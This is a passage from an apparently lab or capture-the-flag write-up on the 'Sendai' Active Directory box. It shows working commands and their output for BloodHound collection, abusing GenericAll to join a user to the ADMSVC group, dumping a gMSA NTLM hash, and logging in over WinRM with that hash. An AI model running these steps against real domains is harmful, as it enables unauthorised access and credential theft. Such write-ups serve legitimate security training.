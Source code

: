 ```bash
cme ldap 10.10.96.234 -u 'Thomas.Powell'  -p 'Toto01!' -k --bloodhound -ns 10.10.96.234 -c all
``` 
![alt text](../assets/image_sendai/3er.png)

So Elliot.Yates is in SUPPORT@SENDAI.VL & SUPPORT@SENDAI.VL have GENERICALL on ADMSVC & ADMSVC can read GMSA password, so let's follow this path :

## Getting mgtsvc$ 

```bash
# Add
net rpc group addmem "ADMSVC" "Elliot.Yates" -U "sendai.vl"/"Elliot.Yates"%'Tata01!' -S "dc.sendai.vl"
# Verify
net rpc group members "ADMSVC" -U "sendai.vl"/"Elliot.Yates"%'Tata01!' -S "dc.sendai.vl"
SENDAI\websvc
SENDAI\Norman.Baxter
SENDAI\Elliot.Yates
```
Now read GMSA passwords :

```bash
cme ldap 10.10.96.234 -u 'Elliot.Yates' -p 'Tata01!' --gmsa

SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.234    636    DC               [+] sendai.vl\Elliot.Yates:Tata01!
LDAP        10.10.96.234    636    DC               [*] Getting GMSA Passwords
LDAP        10.10.96.234    636    DC               Account: mgtsvc$              NTLM: 52ece1a97fb6c834236d7e9aa44c1a20
```
Some links here for explanation : 
[https://www.thehacker.recipes/a-d/movement/dacl/addmember](https://www.thehacker.recipes/a-d/movement/dacl/addmember)

[https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)

[https://www.netexec.wiki/ldap-protocol/dump-gmsa](https://www.netexec.wiki/ldap-protocol/dump-gmsa)

```bash
# WinRM
evil-winrm -u 'mgtsvc$' -H '52ece1a97fb6c834236d7e9aa44c1a20' -i 10.10.96.234
```
Now let's enumerate the box with PrivescCheck.ps1

